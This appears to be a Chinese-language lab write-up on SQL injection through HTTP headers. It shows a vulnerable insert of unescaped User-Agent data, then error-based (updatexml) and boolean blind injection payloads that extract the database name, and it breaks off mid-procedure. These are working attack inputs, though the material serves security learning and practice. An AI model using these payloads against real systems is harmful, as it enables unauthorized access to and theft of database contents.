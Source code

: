 sql 语句：

```sql
//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')
```

原理：

http-header 消息主要分成四个部分：general header ,request header ,response header,entity header。

http-header 注入漏洞正是由于后台把超文本传输头中的一些信息拿去拼接到 sql 语句中又不做安全处理造成的。

过程：

用 user agent 这个字段来进行测试。删除整个字段，输入 payload

![image-20221203202703705.png](https://img.ghostliner.top/788Wm7.png)

\*注：此数据包非第一次 request 的包，在中间过程产生的包。

```sql
'
1'or updatexml(1,concat(0x7e,database()),1) or'
```

注入成功，之后可使用 updatexml 方法获取数据库中用户数据

#### 盲注(base on boolian)

```sql
12
#success
12'
'
#error
'
12'+and+'1'='1
'
#success
```

字符型注入，构造 payload：

```sql
'
12'+and+length(database())=7--+用#注释报错，改为--+
#确定数据库名长度为7
'
12'+and+ascii(substr(database(),1,1))>=48--+
'
12'+and+ascii(substr(database(),1,1))>=65--+
'
12'+and+ascii(substr(database(),1,1))>=97--+
```

可知第一个字符为小写字母，使用 burpsuit 的 Intruder
